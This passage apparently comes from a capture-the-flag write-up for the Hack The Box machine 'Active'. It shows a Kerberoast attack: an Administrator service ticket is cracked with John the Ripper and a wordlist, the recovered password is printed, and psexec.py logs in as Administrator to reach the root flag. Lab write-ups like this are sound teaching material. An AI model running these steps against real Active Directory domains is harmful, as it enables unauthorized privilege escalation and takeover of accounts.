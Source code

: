 We were able to request a TGS from an Administrator SPN. If we can crack the TGS, we’ll be able to escalate privileges!

**Note**: If you get a “Kerberos SessionError: KRB\_AP\_ERR\_SKEW\(Clock skew too great\)”, it’s probably because the attack machine date and time are not in sync with the Kerberos server.

Now that we have a valid TGS that is already in John the Ripper format, let’s try to crack it.

```text
john --wordlist=/usr/share/wordlists/rockyou.txt spn-admin.txt
```

We get back the password!

```text
Ticketmaster1968
```

![](../images/max/961/1*P4pSfo8m5gL2fIZFkK7LZg.png)

To login as the administrator, we’ll use another Impacket script known as psexec.py. As shown in the help menu, you can run the script using the following command.

```text
# psexec.py domain/username:password@targetName
psexec.py active.htb/Administrator:Ticketmaster1968@active.htb
```

![](../images/max/972/1*LB39WE2e7V24M6a79z10YA.png)

Navigate to the directory that contains the root.txt flag.

```text
cd C:\Users\Administrator\Desktop
```

Download the root.txt file to our attack machine.
